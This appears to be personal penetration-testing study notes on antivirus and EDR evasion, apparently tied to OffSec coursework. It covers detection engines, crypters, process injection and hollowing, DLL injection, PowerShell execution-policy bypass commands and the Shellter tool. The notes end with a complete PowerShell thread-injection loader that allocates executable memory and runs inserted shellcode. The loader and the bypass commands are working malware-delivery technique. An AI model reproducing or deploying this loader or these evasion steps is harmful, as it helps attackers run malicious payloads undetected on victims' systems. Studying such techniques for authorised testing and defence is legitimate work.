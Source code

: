 ```yaml
---
layout: blank
pagetitle: Antivirus Evasion
---
```


### EDRs
- 7 general components:
    - File Engine
    - Memory Engine
    - Network Engine
    - Disassembler
    - Emulator/Sandbox
    - Browser Plugin
    - Machine Learning Engine
- Detection methods:
    - Signature
        - Hash the malware. If it matches, it's a virus
    - Heuristic
        - Achieved by stepping through instruction set of a binary file and searching for patterns
    - Behavioral
        - Execute the file in an emulated environment and watching for suspicious actions
    - Machine Learning

### Bypassing Detection

**On-disk Evasion**
- Obfuscators can be marginally effective
- _Crypter_ cryptographically alters code and only decrypts in memory
    - Encryption is one of the most effective AV evasion techniques
- Anti-reversing, Anti-debugging, VM detection
- Software protectors like _Anti-copy_
- _The Enigma Protector_ can successfully bypass antiviruses 

**In-Memory Evasion**
- Injecting into the memory of another process
    - Use OpenProcess to obtain a valid HANDLE
    - Use VirtualAllocEx to allocate memory in the context of the process with that HANDLE
    - After memory allocated, copy the malicious payload to the new allocate dmemory
- DLL Injection
    - Loads a malicious DLL from disk using LoadLibrary API
        - LoadLibrary must load DLL from disk
    - Reflective DLL injection
        - Loads a DLL stored by attacker into process memory
- Process Hollowing
    - Launch non-malicious process in suspended state
    - Remove process image and replace with malicious executable image
    - Resume process
- Inline hooking
    - Modify memory to introduce a hook into malicious code, returning back to original point after execution

### Evasion in Practice
- Use AntiScan.me to test malware if target AV vendor is unknown, which doesn't submit samples to third-parties
- DISABLE AUTOMATIC SAMPLE SUBMISSION TO TEST ON DEFENDER
- **Thread Injection**
    - Powershell scripts can be really difficult to fingerprint, so changing things like variable names can actually help
        - If running scripts is disabled, use `-ExecutionPolicy Bypass` flag or `Set-ExecutionPolicy -ExecutionPolicy Unrestricted CurrentUser`
        - LMFAO
    - Example in Offsec:
        - Used a well-known memory injection PowerShell script, using msfvenom shellcode as the payload
        - Changed variable names and bypassed Avira antivirus
- **Automating AV evasion**
    - _Shellter_ is a popular shellcode injection tool capable of bypassing antivirus software
        - `sudo apt install shellter`
        - Best to inject into a non-well known process
        - Can use Meterpreter payloads
- DLL injection without touching disk
    - Share the DLL remotely with `sudo impacket-smbserver share ./`

### Thread Injection
- Operates within the process it's being executed from
- Rename the variables to bypass string detection

```
# Import VirtualAlloc to allocate memory
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import CreateThreat to create execution threads
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset to write arbitrary data to allocated memory
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
  Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]];
[Byte[]]$sc = <place your shellcode here>;

$size = 0x1000;

if ($sc.Length -gt 0x1000) {$size = $sc.Length};

$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};

$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```